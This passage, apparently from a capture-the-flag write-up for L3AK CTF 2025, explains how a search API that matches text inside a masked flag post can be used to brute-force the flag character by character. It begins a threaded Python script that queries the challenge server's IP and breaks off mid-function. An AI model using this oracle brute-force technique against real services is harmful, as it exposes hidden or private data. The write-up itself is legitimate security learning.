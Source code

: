 ```js
        results: matchingPosts,
        count: matchingPosts.length,
        query: query
    });
});
```

So this code will return the post that contains the query in the title, content, or author. <br>
We know the flag format is `L3AK{...}`. Gonna test out first 3 characters of the flag.

![flag l3ak](/assets/img/l3ak-ctf_2025/flag-l3ak-1.png)

The result is 2 posts is match but the content flag from post with `id 4` is fake.

So we know the logic when searching is that: <br>
- It will filter posts based on the query which means it will check if there is query in the content or not.
- The flag content is hidden by `*` characters.

&rarr; We can leverage this to check the 3 characters that if the post of `id 3` appear, we know that these characters are correct.

Now let's craft a script to bruteforce the flag. <br>
So the script above also implemnt the false positive check because some characters will be matched on in 1 position like position 5, I bruteforce and got both `e` and `3` are match so need to consider this.

```py
import requests
import json
import string
import time
import sys
from concurrent.futures import ThreadPoolExecutor, as_completed

def search_posts(query):
    url = "http://34.134.162.213:17000/api/search"
    data = {"query": query}
    
    try:
        response = requests.post(url, json=data, timeout=2)
        if response.status_code == 200:
            results = response.json()
            return 3 in [post['id'] for post in results['results']]
        else:
            return False
    except Exception as e:
```